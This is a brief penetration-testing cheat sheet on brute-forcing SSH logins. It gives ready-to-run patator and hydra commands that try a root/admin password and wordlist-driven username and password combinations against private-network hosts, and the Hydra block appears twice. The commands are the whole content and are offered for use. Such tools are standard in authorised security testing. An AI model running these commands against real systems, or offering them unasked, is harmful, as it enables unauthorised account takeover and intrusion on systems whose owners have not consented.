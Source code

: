 # Hydra alternative patator from : https://github.com/lanjelot/patator

## bruteforce a lot of services or example ssh
```cheat patator ssh login
patator ssh_login host=10.10.10.x port=22022 user=admin password=FILE0 0=/usr/share/seclists/Passwords/common-credentials/best1050.txt
```


##Hydra


```cheat
hydra -l root -p admin 192.168.1.105 -t 4 ssh
hydra -L user.txt -P passwords.txt 192.168.1.105 ssh

hydra -l root -p admin 192.168.1.105 -t 4 ssh
hydra -L user.txt -P passwords.txt 192.168.1.105 ssh
```

tags: ssh hydra patator bruteforce christian
